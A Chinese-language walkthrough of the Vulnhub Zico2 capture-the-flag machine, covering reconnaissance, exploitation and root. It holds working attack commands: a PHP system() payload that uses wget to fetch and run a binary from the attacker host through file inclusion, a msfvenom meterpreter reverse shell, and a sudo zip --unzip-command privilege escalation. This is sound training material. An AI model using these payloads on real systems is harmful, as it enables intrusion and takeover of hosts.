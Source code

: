 ```yaml
---
title: Vulnhub靶机渗透笔记——Zico2 
date: 2019-02-26 10:30:34
tags:
	- 文件包含
	- Getshell
	- 权限提升
	- 靶机
categories:
	- Vulnhub
---
```


## 0x00 环境

- 靶机：[Zico2](https://www.vulnhub.com/series/zico2,137/#modal210download)
- 攻击机：Kali Linux
- VirtualBox
  - 网络连接方式：host-only、DHCP
- 目标：boot2root获取flag。

<!-- more -->

## 0x01 信息收集与漏洞挖掘

**1.主机发现：**`nmap -sn 192.168.110.0/24`

靶机自动获取IP，使用nmap进行主机发现，最终确定：靶机IP为192.168.110.3、攻击机IP：192.168.110.4、宿主机：192.168.110.5。

![](hack-zico\discovery.png)

**2.端口探测：**`nmap -Pn -sV -n -T4 -p- 192.168.110.3`

端口探测结果如下图，关注端口号22的SSH服务以及端口号80的Web服务。

还确定了靶机系统为Ubuntu Linux、Web容器为Apache。

![](hack-zico\port.png)

**3.Web服务**

- 服务探测：`whatweb http://192.168.110.3 -a 3`

![](hack-zico\whatweb.png)

- 目录爆破：`dirb http://192.168.110.3`

爆破发现dbadmin，访问发现存在目录遍历漏洞，且目录下存在test_db.php文件。

![](hack-zico\dirb.png)

![](hack-zico\dbadmin.png)

访问test_db.php发现是sqlite数据库连接管理页面phpLiteAdmin（类似phpmyadmin），尝试弱口令admin，成功进入。

进入数据库管理页面后可获得以下信息：

> 数据库路径：`/usr/databases/`
>
> 数据库名：`test_users`
>
> 数据表：`info`

![](hack-zico\1.png)

查看数据表info，发现里面存在两条记录，判断是用户的用户名和密码。将密码拿到[somd5](https://www.somd5.com/)网站解密，得到结果：

> root  34kroot34
>
> zico  zico2215@

将得到的两个用户名密码尝试进行SSH登录，结果失败。

- 漏洞扫描

使用宿主机的AWVS进行漏洞扫描，发现存在文件包含、目录穿越漏洞。存在漏洞的连接为：`http://192.168.110.3/view.php?page=tools.html`

![](hack-zico\2.png)

验证漏洞，尝试包含/etc/passwd文件，发现成功包含。

![](hack-zico\3.png)

## 0x02 Getshell

sqlite属于单文件数据库，类似Access数据库。

**1.思路一**

尝试通过数据库管理页面创建数据库的功能点创建一个shell文件，创建`../../var/www/html/shell.php`，`/`会被过滤，该方法不可行。

**2.思路二：文件包含Getshell**

先尝试通过日志文件`/var/log/apache2/access.log`，先访问`http://192.168.110.3/<?php phpinfo();?>`，然后尝试包含日志文件，发现没用。猜测是因为没有读取权限。

包含数据库文件Getshell

首先通过phpLiteAdmin向info表插入一条数据：`<?php system("cd /tmp;wget http://192.168.110.4/shell;chmod +x shell;./shell");?>`，该记录作用是进入/tmp目录，然后通过wget从攻击机上下载shell文件，再对shell文件添加执行权限然后运行。

![](hack-zico\4.png)

然后在攻击机上使用msfvenon生成shell文件：`msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.110.4 lport=4444 -f elf > shell`

在shell文件所在的路径建立一个简单HTTP服务器：`python -m SimpleHTTPServer 80`

设置msf监听，`use exploit/multi/hander`、`set payload linux/x86/meterpreter/reverse_tcp`、`set lhost 192.168.110.4`。

访问连接`http://192.168.110.3/view.php?page=../../usr/databases/test_users`，然后会得到一个meterpreter会话。

![](hack-zico\5.png)

## 0x03 权限提升

获得靶机shell后查看用户，发现不是root，需要提权。

![](hack-zico\7.png)

首先查看`/etc/passwd`文件，找出id大于1000的用户，发现值得关注的用户有root、zico。

![](hack-zico\8.png)

查找属主为zico的文件：`find / -user zico 2> /dev/null`，执行后结果过多。直接`cd /home/zico`到zico的家目录。发现其中有个wordpress目录，猜测应该是博客系统代码。进入该目录发现wordpress的配置文件wp-config.php，查看文件内容，找到数据库密码：`sWfCsfJSPV9H3AmQzw8`。

![](hack-zico\9.png)

尝试使用该用户名密码登录SSH：`ssh zico@sWfCsfJSPV9H3AmQzw8`。成功登录。

使用`sudo -l`命令查看zico用户可以执行的root命令。发现可以执行`/bin/tar`、`/usr/bin/zip`。

![](hack-zico\10.png)

执行`touch /tmp/exploit`、`sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="bash -c /bin/sh"`

成功提权至root。

![](hack-zico\11.png)

获取flag，进入root用户家目录，flag在目录下的flag.txt文件。

![](hack-zico\12.png)

**另一种提权方式**

获得反弹shell后，查看系统内核版本，发现内核版本为3.2.0-23。

![](hack-zico\13.png)

到[Exploit-DB](https://www.exploit-db.com/search)搜索内核提权漏洞，并下载Exp到靶机编译执行。

![](hack-zico\14.png)

## 0x04 总结

- 文件包含Getshell，还可以尝试包含其他文件，如SSH登录日志文件等。
- Python2搭建简单HTTP服务器来传文件：`python -m SimpleHTTPServer 80`
- 上传/执行文件遇权限问题时，可传到`/tmp`目录。

**参考连接**

https://www.colabug.com/1925534.html